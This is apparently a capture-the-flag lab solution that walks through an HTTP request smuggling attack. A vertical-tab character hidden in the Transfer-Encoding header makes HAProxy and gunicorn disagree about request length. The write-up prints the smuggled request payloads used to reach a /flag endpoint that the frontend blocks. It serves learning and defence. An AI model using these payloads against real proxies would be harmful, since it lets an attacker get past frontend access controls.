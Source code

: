 Now time to exploit haproxy!!!

Credits first:
https://github.com/p4k03n4t0r/http-request-smuggling?tab=readme-ov-file
https://ctftime.org/writeup/20655
https://nathandavison.com/blog/haproxy-http-request-smuggling
https://blog.deteact.com/gunicorn-http-request-smuggling/

HAProxy has a vulnerability that causes the parser to ignore the TE (Transfer-Encoding) header when encountering the `\x0b` character.

First of all let's see normal behaviour:

![](../Images/5-%20Lab%20Solution%202/req_1.png)

![](../Images/5-%20Lab%20Solution%202/default_haproxy.png)

It stripped out CL header and kept TE header.
This nice behaviour! But what happens if we inject \x0b there?
(https://gchq.github.io/CyberChef/#recipe=From_Hex('Auto')&input=MGI&oeol=VT copy & paste)

![](../Images/5-%20Lab%20Solution%202/req_2.png)

![](../Images/5-%20Lab%20Solution%202/wireshark_1.png)

It didn't strip out TE!
How will gunicorn behave?

```
if value.lower() == "chunked":
```

That shouldn't work right? It should skip chunked and use CL header instead.

![](../Images/5-%20Lab%20Solution%202/processed_0.png)

But there is also another process applied to value, before compared to "chunked".

![](../Images/5-%20Lab%20Solution%202/processed_1.png)

So in the end:

![](../Images/5-%20Lab%20Solution%202/processed_2.png)

Meaning:
gunicorn accepts that:
```
Transfer-Encoding: \x0bchunked
```
as valid header and process request as chunked. (\x0b is non printable char)

So:
- haproxy ignored TE header, used CL
- gunicorn used TE header, ignored CL

We need to exploit TE-CL.

Frontend have to send entire request to backend, backend will check TE header.

![](../Images/5-%20Lab%20Solution%202/req_3.png)

We can use update CL header option, as we want frontend to send everything to backend.

![](../Images/5-%20Lab%20Solution%202/wireshark_2.png)

Nope?
Server should have sent 2 responses?

Let's make it more obvious, I changed GET / to GET /404

![](../Images/5-%20Lab%20Solution%202/wireshark_3.png)

We didn't get extra response?

But in the theory server sees:

```
GET /404 HTTP/1.1
Host: we_do_not_need_host
Content-Length: 54
Transfer-Encoding: \x0bchunked\r\n
0\r\n\r\n
```

```
GET /flag HTTP/1.1\r\n
Host: we_do_not_need_host\r\n\r\n
```

It should have sent 2 responses back to us.

Maybe it stuck in backend some reason?
We can confirm if it is really there by sending one more request:

First:

![](../Images/5-%20Lab%20Solution%202/req_4.png)

Second:

![](../Images/5-%20Lab%20Solution%202/req_5.png)

Send them:

![](../Images/5-%20Lab%20Solution%202/req_6.png)

That worked!

![](../Images/5-%20Lab%20Solution%202/wireshark_4.png)

Server returned all responses now?

Server sees:

```
GET /404 HTTP/1.1
Host: we_do_not_need_host
Content-Length: 54
Transfer-Encoding: chunked\r\n
0\r\n\r\n
```

```
GET /flag HTTP/1.1\r\n
Host: we_do_not_need_host\r\n\r\n
```

```
ERROR / HTTP/1.1\r\n
Host: we_do_not_need_host\r\n\r\n
```

(I chose last request as ERROR so it is easier to identify in wireshark)

Somewhy it returns response after we send another request after the first one, otherwise it doesn't return everything like what we saw in mitmproxy.

Let's do it for last time.

First:

![](../Images/5-%20Lab%20Solution%202/req_7.png)

Second:

![](../Images/5-%20Lab%20Solution%202/req_8.png)

We need to make sure second is a valid request.

You could have sent something like that too
```
something\r\n\r\n
```
But it wouldn't work because of frontend server (it can't parse something is not a valid http request and forward to backend right?)

![](../Images/5-%20Lab%20Solution%202/req_9.png)

![](../Images/5-%20Lab%20Solution%202/wireshark_5.png)

![](../Images/5-%20Lab%20Solution%202/wireshark_6.png)

What server see:
Request 1:
```
GET /404 HTTP/1.1\r\n
Host: we_do_not_need_host\r\n
Content-Length: 60\r\n
Transfer-Encoding: chunked\r\n
0\r\n\r\n
```
Request 2:
```
GET /flag HTTP/1.1\r\n
Host: we_do_not_need_host\r\n
Foo: barGET / HTTP/1.1\r\n\r\n
```
Server sends back 2 responses. (/flag endpoint blocked on frontend server not on backend)
